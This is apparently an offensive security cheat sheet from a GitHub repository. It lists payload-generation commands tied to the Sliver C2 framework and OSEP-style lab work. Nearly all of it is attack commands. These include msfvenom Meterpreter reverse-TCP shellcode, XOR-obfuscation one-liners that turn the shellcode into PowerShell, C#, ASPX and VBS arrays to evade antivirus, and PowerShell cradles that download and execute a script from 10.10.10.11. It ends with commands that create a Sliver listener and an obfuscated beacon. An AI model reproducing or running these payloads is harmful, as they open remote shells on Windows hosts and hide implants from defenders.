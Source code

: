 # Payloads

Use with https://github.com/Anon-Exploiter/sliver-cheatsheet/tree/main/payloads

## XOR Encryption

### 1) x64bit shell

    sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 EXITFUNC=thread -f raw -o /home/kali/OSEP/hav0c/sliver.x64.bin

### 2) Powershell

    sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 EXITFUNC=thread -f raw | xxd -ps -c 1 | python3 -c 'import sys; key = 2; print("[Byte[]] $buf = " + ",".join([f"0x{(int(x, 16) ^ key):02X}" for x in sys.stdin.read().split()]))'

### 3) C#

    sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 EXITFUNC=thread -f raw | python3 -c 'key = 2; import sys; data = sys.stdin.buffer.read(); encrypted = bytes([b ^ key for b in data]); print(f"byte[] buf = new byte[{len(encrypted)}] {{ " + ", ".join([f"0x{b:02X}" for b in encrypted]) + " };")'

### 4) ASPX 

    sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 EXITFUNC=thread -f raw | python3 -c 'key = 2; import sys; data = sys.stdin.buffer.read(); encrypted = bytes([b ^ key for b in data]); print(f"byte[] vL8fwOy_ = new byte[{len(encrypted)}] {{ " + ",".join([f"0x{b:02X}" for b in encrypted]) + " };")'

### 5) Visual Basic - XOR

    payload="cv2.docm"
    python3 -c "payload=\"$payload\"; print(''.join(f'{ord(char) + 17:03}' for char in payload))"
    
    payload="powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://10.10.10.11/hav0c-ps.txt'))"
    python3 -c "payload=\"$payload\"; print(''.join(f'{ord(char) + 17:03}' for char in payload))"

### 6) Powershell Session

    echo -en "(New-Object System.Net.WebClient).DownloadString('http://10.10.10.11/hav0c-ps.txt') | IEX" | iconv -t UTF-16LE | base64 -w 0
    powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA==

### 7) x32bit shell

    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5553 EXITFUNC=thread -f raw -o /home/kali/OSEP/hav0c/sliver.x86.bin

### 8) Visual Basic Script (VBS)

    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5553 EXITFUNC=thread -f raw | xxd -ps -c 1 | python3 -c 'import sys; key = 2; data = [str(int(x, 16) ^ key) for x in sys.stdin.read().split()]; chunk_size = 50; chunks = [data[i:i + chunk_size] for i in range(0, len(data), chunk_size)]; print("buf = Array(", end=""); print(", _\n".join([", ".join(chunk) for chunk in chunks]) + ")")'

### 9) Powershell 2

    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5553 EXITFUNC=thread -f raw | xxd -ps -c 1 | python3 -c 'import sys; key = 2; print("[Byte[]] $buf = " + ",".join([f"0x{(int(x, 16) ^ key):02X}" for x in sys.stdin.read().split()]))'

## Sliver Implant

### 1) Create listener

    profiles new --http 10.10.10.11:8088 --format shellcode osep
    http -L 10.10.10.11 --lport 8088

### 2) Generate beacon

    generate beacon --http 10.10.250.10:8088 --name sliver.obfuscated --os windows --seconds 5 --jitter 0 --evasion
